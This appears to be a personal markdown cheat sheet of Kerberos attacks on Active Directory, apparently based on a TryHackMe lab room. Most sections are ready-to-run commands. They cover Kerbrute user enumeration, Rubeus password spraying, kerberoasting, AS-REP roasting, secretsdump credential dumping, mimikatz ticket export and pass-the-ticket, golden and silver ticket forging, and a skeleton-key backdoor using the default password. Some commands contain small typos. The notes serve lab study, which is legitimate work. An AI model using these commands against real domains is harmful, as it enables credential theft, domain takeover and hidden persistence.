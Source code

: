 # kerberos 101

## Kerberos Authentication

//image

## Enumerating Users

* [Kerbrute](https://github.com/ropnop/kerbrute/releases)

```bash
./kerbrute -dc <DOMAIN-CONTROLLER> -d <FULL-DOMAIN> USER-WORDLIST.txt -t 50
```

## Harvesting TGTs

* [Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

```bash
Rubeus.exe harvest /interval:30

# password spray 
Rubeus.exe brute /password:Password1 /noticket
```

### kerberoasting

Allows user to request service ticket (ST) for any service w/ registered SPN (service princical name) then use the ST to
crack service password.

* [Bloodhound](https://github.com/BloodHoundAD/BloodHound/releases)
* [Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
* [kekeo](https://github.com/gentilkiwi/kekeo)

```bash
# using Rubeus.exe
Rubeus.exe kerberoast
# copy hash and crack using hashcat -m 13100

# using Impacket
# dump the Kerberos hash for all kerberoastable accounts
python3 GetUserSPNs.py DOMAIN/USER:PASS> -dc-ip <DOMAIN-CONTROLLER> -request
```

* If the service account is domain admin > Golden/Silver ticket > dumping the NTDS.dit.
* If the service account is not domain admin > log into system with creds > pivot/escalate > password spray other
  service and domain admin accounts

### AS-REP Roasting | (only for users with Kerberos pre-authentication disabled)

* Dumps the krbasrep5 hashes of user accounts
* If pre-authentication is disabled you can request any authentication data for any user and the KDC will return an
  encrypted TGT that can be cracked offline because the KDC skips the step of validating that the user is really who
  they say that they are.
* This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the
  specified user account.

```bash
# using Rubeus.exe
Rubeus.exe asreproast
# add $23 after $krb5asrep$
# hashcat -m 18200

# Impacket's GetNPUsers.py
# Enumerate the users > user.txt
GetNPUsers.py DOMAIN/ -usersfile user.txt -format hashcat -outputfile hash.asreproast
# hashcat -m 18200

secretsdump.py USER@DOMAIN-IP
```

### Pass-the-ticket using mimikatz

* Can be used for dumping user credentials inside an AD network
* Can dump the TGT from the LSASS memory (which stores Kerberos ticket as the gatekeeper and accept or reject the
  credentials provided)
* Gives a .kirbi ticket - can be used to get domain admin
* Allows to escalate to domain admin if you dump a domain admin's ticket and then impersonate that ticket

```bash
> mimikatz.exe

# 200 OK = have admin access to run this exe properly
privilege::debug

# exports all .kirbi to current directory
sekurlsa::tickets /export

# find some admin .kirbi from krbtgt
kerberos::ptt TICKET

# to check if ticket is working
> klist
```

### Golden / Silver ticket attack using Mimikatz

* Silver ticket => more sleaLth and discreet; only for target service
* Golden ticket => any kerberos service

NOTE:

* KRBTGT: service account in KDC; issues all TGTs. If impersonate this account and create a golden ticket we have
  ability to create a service ticket for any service
* TGT: ticket to a service account issued by the KDC and can only access that service.

#### Golden Ticket

```bash
# dump hash and SID
lsadump::lsa /inject /name: krbgtg

# create ticket golden
kerberos::golden /user:Administrator /domain:DOMAIN /sid:SID /krbtgt:KRBTGT_NTLM_HASH /id:500

# open a new elevated command prompt with the given ticket in mimikatz.
misc::cmd
```

#### Silver Ticket

```bash
# dump
lsadump::lsa /inject /name: [<domain-admin-account> | <service-account>]

# create ticket silver
kerberos::golden /user:<USER> /domain:DOMAINM /sid:SID /krbtgt:SERVICE_NTLM_hash /id:1103

# open a new elevated command prompt with the given ticket in mimikatz.
misc::cmd
```

### Kerberos backdoor using Mimikatz

* Works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps.
* A skeleton key only works using Kerberos RC4 encryption.
* The default hash skeleton key is `60BA4FCADC466C7A033C178194C03DF6` (password:`mimikatz`)

```bash
misc::skeleton

# done, now accessing admin share
> net use C:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
> dir \\Desktop-1\c$ /user:Machine1 mimikatz
```

## References

* [TryHackMe: attackingkerberos](https://tryhackme.com/room/attackingkerberos)
